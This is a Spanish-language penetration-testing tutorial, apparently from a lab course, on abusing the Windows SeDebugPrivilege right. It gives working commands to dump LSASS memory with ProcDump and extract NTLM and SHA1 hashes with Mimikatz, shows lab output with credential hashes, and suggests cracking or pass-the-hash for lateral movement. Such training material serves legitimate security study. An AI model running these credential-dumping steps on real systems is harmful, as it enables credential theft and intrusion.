 # SeDebugPrivilege 

El privilegio [**SeDebugPrivilege**](https://learn.microsoft.com/es-es/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/debug-programs) permite a un usuario o proceso depurar otros procesos, incluyendo los del sistema. Normalmente solo los **administradores** lo tienen asignado, ya que concede la capacidad de leer memoria de procesos protegidos y modificar estructuras críticas del sistema operativo.

Puede asignarse a través de políticas locales o de dominio, bajo:

```
Computer Configuration > Windows Settings > Security Settings > Local Policies > User Rights Assignment > Debug programs
```

Este privilegio suele entregarse a **desarrolladores** o personal técnico que necesita depurar aplicaciones o servicios. Sin embargo, representa un **riesgo elevado**, ya que puede usarse para capturar información sensible de la memoria o alterar el comportamiento del sistema.

---

## Contexto en pentesting

Durante un **pentest interno**, `SeDebugPrivilege` es un objetivo interesante porque permite realizar acciones con privilegios elevados sin necesidad de pertenecer al grupo de administradores.

Por ejemplo:

* Si se obtienen múltiples **hashes NTLMv2** con herramientas como **Responder** o **Inveigh**, conviene priorizar el cracking de cuentas que podrían tener este privilegio (p. ej., cuentas de desarrolladores).
* Un usuario puede **no ser administrador local**, pero tener este derecho asignado, lo cual **no siempre es visible remotamente** (por ejemplo, mediante `BloodHound`). Por eso es útil comprobarlo manualmente al tener acceso RDP o sesión local.


<img width="1640" height="351" alt="image" src="https://github.com/user-attachments/assets/1219102e-0686-4112-b398-807edda96d78" />


---

# Volcado de LSASS con ProcDump

Tras iniciar sesión como un usuario al que se le asignó el derecho **Debug programs** y abrir una shell elevada, comprobamos que **SeDebugPrivilege** aparece listado.

```cmd
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

Podemos usar [**ProcDump**](https://learn.microsoft.com/es-es/sysinternals/downloads/procdump) del paquete `Sysinternals` para aprovechar este privilegio y volcar la memoria de un proceso. Un buen candidato es el proceso **Local Security Authority Subsystem Service (LSASS)**, que almacena credenciales de usuario tras el inicio de sesión.

```cmd
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Este procedimiento genera un volcado de memoria (`lsass.dmp`) que puede analizarse posteriormente en un entorno controlado para extraer credenciales o validar el impacto del privilegio **SeDebugPrivilege** en la seguridad del sistema.

---

Esto funciona correctamente; podemos cargar el volcado en Mimikatz usando el comando `sekurlsa::minidump`. Tras ejecutar `sekurlsa::logonpasswords` obtenemos el hash NTLM de la cuenta de administrador local que inició sesión de forma local. Podemos usarlo para realizar un ataque *pass-the-hash* y moverse lateralmente si la misma contraseña de administrador local se utiliza en uno o varios sistemas adicionales (común en organizaciones grandes).

**Nota:** siempre es buena idea teclear `log` antes de ejecutar comandos en Mimikatz; así toda la salida de comandos se guardará en un archivo `.txt`. Esto resulta especialmente útil al volcar credenciales de un servidor que puede tener muchos conjuntos de credenciales en memoria.

```
SeDebugPrivilege
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz

 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
 '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP>

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

---



* El hash **NTLM** (`NTLM`) mostrado es la representación del secreto de la cuenta; puede intentarse crackear offline o utilizarse en ataques *pass-the-hash* si se reutiliza la contraseña en otros equipos.
* El comando `log` en Mimikatz crea un fichero (`mimikatz.log`) con toda la salida, muy útil como evidencia y para evitar perder información.





